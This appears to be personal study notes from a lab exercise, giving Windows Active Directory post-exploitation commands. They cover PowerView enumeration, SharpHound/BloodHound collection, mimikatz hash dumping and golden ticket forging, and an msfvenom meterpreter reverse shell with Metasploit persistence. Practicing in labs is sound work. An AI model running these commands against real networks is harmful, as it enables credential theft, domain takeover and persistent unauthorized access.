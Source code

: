 # Windows
## Powerview
Powerview is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.
1.) Start Powershell - `powershell -ep bypass` -ep bypasses the execution policy of powershell allowing you to easily run scripts
2.) Start PowerView - `. .\Downloads\PowerView.ps1`

3.) Enumerate the domain users - `Get-NetUser | select cn`. `select` get the supplied field only because Get-NetUser have a shitload of output. cn is the name, canonical name i guess.
4.) Enumerate the domain groups - `Get-NetGroup -GroupName *admin*`

`Invoke-Sharefinder`: show all shared folder(SMB)

Cheatsheet:
For 2.0 https://gist.github.com/HarmJ0y/3328d954607d71362e3c
3.0 https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

## Bloodhound
Bloodhound is a graphical interface that allows you to visually map out the network.
First get loot from the compromised host with Sharphound:
1.) `powershell -ep bypass` same as with PowerView

2.) `. .\Downloads\SharpHound.ps1`    

3.) `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`

Transfer the loot to the attacker machine.
extract it and drop on `bloodhound` with: neo4j:password

## mimikatz
### Dumping hash
1.) execute mimikatz.exe
2.) `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly
3.) `lsadump::lsa /patch` Dump those hashes!
### golden ticket
 1.) `cd downloads && mimikatz.exe`    

2.) `privilege::debug` ensure this outputs \[privilege "20" ok]

 3.) `lsadump::lsa /inject /name:krbtgt`  This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket(krbtgt is a kerberoastable account)

 Create the golden ticket with
 `kerberos::golden /user:USER /domain: /sid:SID /krbtgt:NTLMHASH /id:ID`
 where USER is your currently accessible user,
 SID and NTLMHASH is from the command before(SID is located on the domain field as Domain: DOMAIN_NAME / SID) 
 ID is USER id.

 Use the golden ticket to access other machine with:
 1.) `misc::cmd` - This will open a new command prompt with elevated privileges to all machines
 2.) Access other Machines! - You will now have another command prompt with access to all other machines on the network

 ## maintaining access
 create a msfvenom reverse shell:
 1.) `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell
 2.) use multi handler with `use exploit/multi/handler`
 3.) Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`
 4.) After setting your THM IP address as your "LHOST", start the listener with `run`
 with the session in background `use exploit/windows/local/persistence`, by default it will send shell every 10 second, but you can adjust it

 Resources -

-   [https://blog.harmj0y.net/](https://blog.harmj0y.net/)[](https://blog.harmj0y.net/)
-   [https://adsecurity.org/?page_id=1821](https://adsecurity.org/?page_id=1821)[](https://adsecurity.org/?page_id=1821)
-   [https://metasploit.help.rapid7.com/docs/about-post-exploitation](https://metasploit.help.rapid7.com/docs/about-post-exploitation)  
    
-   [http://www.pentest-standard.org/index.php/Post_Exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation)
-   [https://offsec.red/mimikatz-cheat-sheet/](https://offsec.red/mimikatz-cheat-sheet/)[](https://offsec.red/mimikatz-cheat-sheet/)
-   [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)[](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

Tools/Malware Used -

-   [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)[](https://github.com/gentilkiwi/mimikatz)
-   [https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)[](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)
-   [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)